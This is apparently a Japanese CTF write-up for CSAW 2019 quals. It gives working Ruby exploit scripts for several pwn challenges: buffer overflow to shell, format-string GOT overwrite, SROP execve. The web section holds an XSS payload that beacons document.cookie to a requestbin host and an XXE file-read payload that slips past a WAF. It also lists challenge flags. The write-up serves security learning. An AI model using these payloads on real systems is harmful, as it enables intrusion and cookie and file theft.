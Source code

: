 ```yaml
---
title: "Csaw2019 writeup"
date: 2019-09-16T09:50:28+09:00
draft: false
categories:
- writeup
---
```


## Misc

### mcgriddlev2

- 問題文にFLAGが記載されている
- **flag{W3lcome_7o_CSAW_QUALS_2019!}**

## Pwn 

### baby_boi (50pt)

- シンプルなBOFでIPが奪える問題
- libcのアドレスを出力してくれているので、配布されたlibcでオフセット求めてOne-Gadget に飛ばしてシェルを奪う

```ruby
#!/usr/bin/env ruby
# coding: ascii-8bit
require 'pwn'
$z = Sock.new "localhost", 8888
$z = Sock.new "pwn.chal.csaw.io", 1005
libc = ELF.new "./libc-2.27.so"
#libc = ELF.new "/lib/x86_64-linux-gnu/libc-2.29.so"
def z; $z; end
z.recvuntil("\n")
libc_printf = z.recvuntil("\n").match(/: (.+)/)[1].to_i(16)
libc_base = libc_printf - libc.symbols["printf"]
puts "%x" % libc_base
payload = "A" * 40
payload << p64(libc_base + 0x4f322)
z.sendline(payload)
z.interact
```
- **flag{baby_boi_dodooo_doo_doo_dooo}**

### GOT Milk? (50pt)

- 独自の共有オブジェクトとバイナリが配られる
- `set LD_LIBRARY_PATH ./` でカレントディレクトリの共有オブジェクトを見るようにする
- FSBがあるので、それを使ってGOT Overwriteする

```ruby
#!/usr/bin/env ruby
# coding: ascii-8bit
require 'pwn'
require 'fsa'
#$z = Sock.new "localhost", 8888
$z = Sock.new "pwn.chal.csaw.io", 1004
def z; $z; end
value = 0x89
fmt = FSA.new()
fmt[0x804a010] = value
payload = fmt.payload(7) # index of argument
puts z.recvuntil("? ")
z.sendline(payload)
puts z.recv
```
- **flag{y0u_g00000t_mi1k_4_M3!?}**

### small_boi (100pt)

- statically linked でstrippedな小さなバイナリが与えられる
- sig\_return システムコールを呼ぶようなraxの設定のされ方があるのと自明なBOFがあるので、Sigreturn ROP (SROP) で `execve("/bin/sh", 0, 0)` を実行する
  - SROPは、スタックの値を使ってsig\_return実行時にレジスタの値を代入する攻撃
  - これを使ってrdiやrsi、ripなどが設定できるため任意のシステムコールを呼べる
  
```ruby
#!/usr/bin/env ruby
# coding: ascii-8bit
require 'pwn'
#$z = Sock.new "localhost", 8888
$z = Sock.new "pwn.chal.csaw.io", 1002
def z; $z; end
payload = "\x00" * 0x28
payload << p64(0x40017c)
payload << p64(0x0) * 4
payload << p64(0x0) * 8 # r8~r15
payload << p64(0x4001ca) # rdi = /bin/sh
payload << p64(0) # rsi
payload << p64(0) # rbp
payload << p64(0) # 
payload << p64(0) # 
payload << p64(0x3b) # rax = 0x3b 
payload << p64(0) # rcx
payload << p64(0)   # rsp
payload << p64(0x00400185) # rip = syscall
payload << p64(0x0) # eflags
payload << p16(0x33) # cs
payload << p16(0)
payload << p16(0)
payload << p16(0x2b) # ss
payload << p64(0x0) * 5 # err ~ union
payload << p64(0x0) * 8 # reserved[8]
z.sendline payload
z.interact
```
- **flag{sigrop_pop_pop_pop}**

### traveller

- 解けなかったのでwriteupを見た
- Off-by-oneがあるためHeap問題かと思ったら操作対象のインデックスの入力に負数が入力できるOOB問題
- 編集コマンドで、`-50` をするとfree@gotを書き換えられたのでこれを使って`cat_flag`関数に飛ばす
```ruby
#!/usr/bin/env ruby
# coding: ascii-8bit
require 'pwn'
$z = Sock.new "pwn.chal.csaw.io", 1003
#elf = ELF.new "./traveller"
#libc = ELF.new "./libc-2.23.so"
context.log_level = :debug
def z; $z; end
def add(dist, dest)
  z.sendline "1"
  z.recvuntil "> "
  z.sendline dist.to_s
  z.recvuntil ": "
  z.sendline dest
  z.recvuntil "> "
end
def change(dist, dest)
  z.sendline "2"
  z.recvuntil ": "
  z.sendline dist.to_s
  z.send dest
  z.recvuntil "> "
end
def delete(dist)
  z.sendline "3"
  z.recvuntil ": "
  z.sendline dist.to_s
  z.recvuntil "> "
end
def check(dist)
  z.sendline "4"
  z.recvuntil ">"
  z.sendline dist.to_s
  return z.recvuntil "> "
end
tmp = z.recvuntil "> "
stack_address = tmp.match(/.\n(.*) \n\n/)[1].to_i(16)
add(1, "AAAAAAAA")
change(-50, p64(0x4008b6))
puts delete(0)
```
- **flag{h0pe_y0u_3nj0y_ur_j0urn3y}**

## Rev

### Beleaf

- バイナリ中にFLAGに使われる文字列とインデックスの配列があるので、それを引っこ抜いてきて実行する

```ruby
#!/usr/bin/env ruby

idxs = [0x1, 0x9, 0x11, 0x27, 0x02, 0x00, 0x12, 0x03, 0x8, 0x12, 0x9, 0x12, 0x11, 0x1, 0x3, 0x13, 0x4, 0x3, 0x5, 0x15, 0x2e, 0xa, 0x3, 0xa, 0x12, 0x3, 0x1, 0x2e, 0x16, 0x2e, 0xa, 0x12, 0x6]

flag = [0x77, 0x66, 0x7b, 0x5f, 0x6e, 0x79, 0x7d, 0x20, 0x62, 0x6c, 0x72, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x61, 0x65, 0x69, 0x20, 0x6f, 0x74, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x67, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x75].map(&:chr)

idxs.each do |i|
  print flag[i]
end
```
- **flag{we_beleaf_in_your_re_future}**

## Web

### baby csp

- CSPが有効なXSS問題
  - `default-src 'self'; script-src 'self' *.google.com; connect-src *`
- 上記のCSPからJSONPエンドポイントでのXSSを使う
  - https://inside.pixiv.blog/kobo/5137
- FLAGは、Cookieにあるので、requestbin を使ってPOSTさせるJavaScriptを埋め込む
- `<script src="https://accounts.google.com/o/oauth2/revoke?callback=navigator.sendBeacon('http://requestbin.net/r/ugix54ug', document.cookie)"></script>`
- **flag{csp_will_solve_EVERYTHING}**

### unagi

- 解けなかったのでwriteupを見た
- XMLがアップロードできるので、XXEだとわかるが、WAFがありいくつかのキーワード(ENTITYやSYSTEMなど)が使えない
  - PUBLIC は使えたりした
- 結論としては、UTF-8ではなくUTF-16BEでアップロードすればWAFをBypassできるというものだった
  - 試してたが、普通にXXEとしてうまくないファイルだったためこの方針を諦めてしまっていたのが解けない原因っぽい
- `cat x.xml | iconv -f UTF-8 -t UTF-16BE > x_utf-16.xml` などで作成してアップロードする

```xml
<?xml version="1.0"?>
<!DOCTYPE root[
<!ENTITY pass SYSTEM "file:///flag.txt">
]>
<users>
  <user>
    <username>alice2</username>
    <password>passwd1</password>
    <name>Alice2</name>
    <email>alice2@fakesite.com</email>
    <group>CSAW2019</group>
    <intro>&pass;</intro>
  </user>
</users>
```
- **flag{n0w_i'm_s@d_cuz_y0u_g3t_th3_fl4g_but_c0ngr4ts}**
